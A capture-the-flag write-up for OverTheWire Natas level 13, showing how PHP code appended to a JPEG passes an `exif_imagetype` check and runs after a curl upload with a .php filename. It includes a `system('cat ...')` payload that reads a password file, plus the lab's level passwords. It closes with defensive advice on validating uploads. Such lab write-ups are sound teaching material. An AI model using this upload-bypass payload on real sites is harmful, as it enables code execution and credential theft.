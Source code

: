 ```yaml
---
category: natas
title: Natas13 - Code Injection Part 2
---
```


website: http://natas13.natas.labs.overthewire.org/ (password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY)

In this challenge, a major different from the previous level is that a file type check is added to ensure the uploaded file is an image.
The file type check is done through the PHP function `exif_imagetype`. See below:

```php
if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
    echo "File is not an image";
    ...
}
```

Let's look at how `exif_imagetype` works. According to <a href="https://www.php.net/manual/en/function.exif-imagetype.php">this</a> PHP document,
we can learn that the function reads the first bytes of an image and checks its signature.
As such, I ran a quick test by following steps below:
1. Download a jpg file, e.g., icon.jpg.
2. Inject php code into icon.jpg: <small>$ echo '<?php echo system("cat /etc/natas_webpass/natas14"); ?>' >> icon.jpg</small>
3. Run the command to test the contaminated jpg file: <small>$ php -r 'echo exif_imagetype("icon.jpg");'</small>. The command gives the output "2", which means `exif_imagetype()` still considers icon.jpg as a valid JPEG even though it has been injected with some PHP codes.

Through the above test, we learned that we can bypass the image validation check by injecting a PHP code into a valid jpg file.
I submitted the modified JPEG file using the curl command:

```shell
$ curl -u natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY  http://natas13.natas.labs.overthewire.org/   -F "filename=icon.php" -F "uploadedfile=@icon.jpg"
... ...
The file <a href="upload/5q99vw2yhb.php">upload/5q99vw2yhb.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

Following the generated link, which is a PHP page, I am able to retrieve the password for Natas14: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1.

<strong>LESSONS LEARNED</strong>

Same with the previous level, this challenge is also about code injection.
As what we learned already in Natas12, a web server should validate user input and should not rely on a user defined file extension.

Moreover, if possible, a web server should audit the content of a file that is uploaded by users.
Another way to reduce this kind of code injection is to reprocess the uploaded image at the server side and then save the reprocessed image.
For exmaple, tools such as <a href="https://www.php.net/manual/en/intro.imagick.php">Imagick</a> can achieve such a goal. 

